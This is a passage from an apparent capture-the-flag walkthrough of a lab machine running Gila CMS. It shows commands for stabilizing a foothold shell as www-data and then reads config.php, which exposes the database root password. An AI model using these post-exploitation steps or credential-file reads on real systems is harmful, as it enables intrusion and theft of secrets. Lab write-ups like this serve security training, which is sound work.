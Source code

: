 We got our shell, let's begin privilege escalation:

# PRIVILEGE ESCALATION
---

First thing to do is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](cybersecurity/images/Pasted%2520image%252020250428142942.png)

If we check `config.php`:

```bash
www-data@cmess:/var/www/html$ cat config.php
<?php

$GLOBALS['config'] = array (
  'db' =>
  array (
    'host' => 'localhost',
    'user' => 'root',
    'pass' => 'r0otus3rpassw0rd',
    'name' => 'gila',
  ),
  'permissions' =>
  array (
    1 =>
    array (
      0 => 'admin',
      1 => 'admin_user',
      2 => 'admin_userrole',
    ),
  ),
  'packages' =>
  array (
    0 => 'blog',
  ),
  'base' => 'http://cmess.thm/gila/',
  'theme' => 'gila-blog',
  'title' => 'Gila CMS',
  'slogan' => 'An awesome website!',
  'default-controller' => 'blog',
  'timezone' => 'America/Mexico_City',
  'ssl' => '',
  'env' => 'pro',
  'check4updates' => 1,
  'language' => 'en',
  'admin_email' => 'andre@cmess.thm',
  'rewrite' => true,
);
```
